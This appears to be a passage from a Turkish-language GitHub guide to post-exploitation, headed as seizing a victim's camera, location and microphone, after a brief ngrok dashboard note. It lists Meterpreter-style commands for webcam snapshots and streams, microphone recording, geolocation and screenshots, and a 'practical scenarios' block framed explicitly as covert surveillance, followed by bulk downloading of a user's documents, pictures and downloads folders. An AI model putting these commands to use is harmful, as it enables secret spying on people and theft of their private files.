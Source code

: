 ### 📊 **Ngrok Dashboard:**
```
http://localhost:4040
```
Bu adresten tüm tünel aktivitelerini, istekleri ve logları görebilirsiniz.

---

## 1️⃣1️⃣ Kamera, Konum ve Mikrofon Ele Geçirme 📹🎤📍

### 📸 **Webcam Kontrolü:**
```bash
# Webcam listesini görüntüle
webcam_list

# Belirli webcam'den fotoğraf çek
webcam_snap -i 1

# Webcam stream'i başlat
webcam_stream

# Webcam stream'i durdur
webcam_stream -k
```

### 🎤 **Mikrofon Kontrolü:**
```bash
# Mikrofon kaydı başlat
record_mic -d 30

# Belirli süre kayıt
record_mic -d 60

# Kaydı belirli konuma kaydet
record_mic -d 30 -f /tmp/ses_kaydi.wav

# Mikrofon listesini görüntüle
record_mic -l
```

### 📍 **Konum Bilgisi:**
```bash
# Geolocation (IP tabanlı)
geolocate

# GPS koordinatları (cihazda GPS varsa)
# Bu özellik tüm cihazlarda mevcut değildir
```

### 🎯 **Pratik Kullanım Senaryoları:**
```bash
# Gizli gözetleme için
webcam_snap -i 0
screenshot
record_mic -d 10

# Veri toplama için
download /home/user/documents/
download /home/user/pictures/
download /home/user/downloads/
```

---
